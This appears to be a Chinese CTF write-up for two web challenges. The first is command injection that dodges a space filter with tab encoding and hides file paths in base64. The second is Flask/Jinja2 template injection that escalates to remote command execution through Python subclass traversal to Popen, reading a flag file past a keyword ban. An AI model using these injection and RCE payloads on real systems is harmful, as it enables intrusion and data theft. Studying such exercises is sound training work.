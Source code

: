 # Command

没什么难度吧 就是空格绕过 加base64绕过

然后就是find命令找 flag地址

?url=127.0.0.1|find%09/%09-name%09`echo%09ZipsKmEqZyoK|base64%09-d`

1|ca\t%09/`echo%09L2V0Yy8uZmluZGZsYWcvZmxhZy50eHQ=|base64%09-d`

![图片](https://uploader.shimo.im/f/SH9ddFPsRJmP9y5J.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

# flaskbot

![图片](https://uploader.shimo.im/f/0Oy1JBdzEBVddWX2.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

提示flask就想到模板注入了，先试一下

![图片](https://uploader.shimo.im/f/U8b7VQ4bKMaKxvNR.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

看这样name好像没什么 试试num

首先因为是float 要用Nan绕过

![图片](https://uploader.shimo.im/f/YKjsNrHxFa5nWsYH.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

可以看到模板注入成功了

好像是个比数的 抓包看看东西 发现一个user的cookies

![图片](https://uploader.shimo.im/f/mwFDx3BkIdpbO26o.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

解开这个base64

![图片](https://uploader.shimo.im/f/czAUNWqsiA7JsCil.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

那么就直接想着rce 试一下直接读取 写在这里

payload:{{''.__class__.__mro__[2].__subclasses__()[258]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}

![图片](https://uploader.shimo.im/f/YmS6Epxn1Ujw85pt.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

cat 读取

![图片](https://uploader.shimo.im/f/BzdKOEWUOdFtKgDh.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

猜测是ban了flag

构造{{''.__class__.__mro__[2].__subclasses__()[258]('cat /super_secret_fl""ag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

![图片](https://uploader.shimo.im/f/hbBI1WJuhy6dGDls.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)
